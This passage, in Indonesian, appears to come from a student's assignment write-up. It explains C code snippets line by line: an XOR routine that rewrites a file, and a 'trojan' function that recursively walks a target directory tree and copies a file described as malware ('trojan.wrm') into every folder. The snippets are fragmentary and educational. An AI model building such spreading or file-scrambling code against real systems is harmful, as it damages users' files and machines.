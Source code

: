 #### Menulis Data yang Telah Diubah
```
fwrite(buffer, 1, filesize, file);
fclose(file);
free(buffer);
```
Untuk menulis data hasil XOR kembali ke file, menutup file, dan membebaskan memori yang digunakan.

### > C.
#### 1. Fungsi trojan
Tujuan:
Menyalin sebuah file (dalam konteks ini dianggap malware) ke setiap direktori dalam struktur folder target.

#### Membuka direktori target:
```
DIR *dir = opendir(direktoriTarget);
if (!dir) return;
```
- Membuka direktori yang diberikan (direktoriTarget).

- Jika gagal, fungsi langsung keluar.

#### Iterasi isi direktori:
```
while ((entri = readdir(dir)) != NULL) {
    if (strcmp(entri->d_name, ".") == 0 || strcmp(entri->d_name, "..") == 0)
        continue;
}
```
Melewati entri spesial . dan .. yang menunjuk ke direktori saat ini dan induknya.

#### Membentuk path absolut:
```
snprintf(path, sizeof(path), "%s/%s", direktoriTarget, entri->d_name);
```
Menggabungkan nama direktori target dengan entri saat ini untuk mendapatkan path lengkap.

#### Jika entri adalah direktori, rekursif:
```
if (S_ISDIR(st.st_mode)) {
    trojan(path, lokasiMalware);
}
```
Jika entri adalah direktori, fungsi dipanggil kembali secara rekursif untuk menyusuri isi direktori tersebut.

#### Menyalin malware ke direktori:
```
snprintf(pathTujuan, sizeof(pathTujuan), "%s/trojan.wrm", direktoriTarget);
FILE *src = fopen(lokasiMalware, "rb");
FILE *dst = fopen(pathTujuan, "wb");
```
- Membuat file tujuan bernama `trojan.wrm` di direktori target.

